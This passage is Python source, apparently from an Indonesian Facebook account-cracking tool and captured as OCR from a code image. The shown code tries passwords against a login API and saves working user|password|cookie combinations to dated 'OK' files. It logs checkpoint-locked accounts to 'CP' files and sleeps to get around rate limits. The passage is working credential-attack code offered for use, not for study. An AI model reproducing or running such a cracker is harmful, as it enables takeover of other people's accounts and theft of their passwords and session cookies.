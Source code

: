 						prints(tree)

						open(f"OK/{self.hari_ini}.txt","a").write(f"{user}|{pw}|{coki}\n")

						break

				elif "User must verify their account" in post.text:

					user = post.json()["error"]["error_data"]["uid"]

					if user in self.ok or user in self.cp:

						break

					else:

						self.cp.append(user)

						tree = Tree(" ",guide_style=f"{color_panel}")

						tree.add(f"\r{K2}{user}|{pw}{P2} ")

						prints(tree)

						open(f"CP/{self.hari_ini}.txt","a").write(f"{user}|{pw}\n")

						break

				elif "Calls to this api have exceeded the rate limit. (613)" in post.text:

					prog.update(des,description=f" {H2}•{P2} crack {M2}spam{P2} {str(self.loop)}/{len(tampung)} OK : {H2}{len(self.ok)}{P2} CP : {K2}{len(self.cp)}{P2}")

					prog.advance(des)

					time.sleep(30)

				else:continue

		except ConnectionError:

			time.sleep(30)

			self.metode_api(user,pwx)

		self.loop +=1

	###----------[ PRINT SIMPAN HASIL ]---------- ###

	def simpan_hasil(self):

		prints(Panel(f"""\r{P2}hasil crack ok tersimpan ke : OK/{self.hari_ini}.txt

{P2}hasil crack ok tersimpan ke : CP/{self.hari_ini}.txt""",width=80,padding=(0,10),style=f"{color_panel}"))

###----------[ MENU LAIN ]---------- ###

class Lain:

	

	###----------[ FUNCTION INIT ]---------- ###

	def __init__(self,cookie):
